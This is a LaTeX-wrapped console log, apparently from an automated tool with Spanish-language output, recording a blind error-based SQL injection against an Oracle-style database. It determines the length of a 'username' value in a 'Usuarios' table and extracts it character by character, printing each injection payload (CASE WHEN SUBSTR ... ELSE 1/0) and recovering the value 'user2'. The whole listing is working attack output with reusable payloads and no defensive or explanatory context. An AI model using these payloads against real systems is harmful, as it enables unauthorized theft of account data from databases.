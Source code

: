 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[style=console, basicstyle=\ttfamily\footnotesize]
 [+] Extrayendo datos para la fila 3...
 
 [+] Determinando la longitud de 'username' para la fila 3...
 FAIL Probando longitud 1 para la fila 3...
 FAIL Probando longitud 2 para la fila 3...
 FAIL Probando longitud 3 para la fila 3...
 FAIL Probando longitud 4 para la fila 3...
 OK Probando longitud 5 para la fila 3...
 [*] La longitud de 'username' en la fila 3 es: 5
 
 [+] Extrayendo el valor de 'username' para la fila 3...
 
 [+] Extrayendo carácter 1 de 5 para la fila 3...
 OK Carácter 1: 'u' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 1, 1) = 'u') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 2 de 5 para la fila 3...
 OK Carácter 2: 's' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 2, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 3 de 5 para la fila 3...
 OK Carácter 3: 'e' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 3, 1) = 'e') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 4 de 5 para la fila 3...
 OK Carácter 4: 'r' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 4, 1) = 'r') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 5 de 5 para la fila 3...
 OK Carácter 5: '2' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 5, 1) = '2') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 [+] Valor extraído para la fila 3: user2
 
 [+] Extrayendo datos para la fila 4...
 

\end{lstlisting}
\end{document}
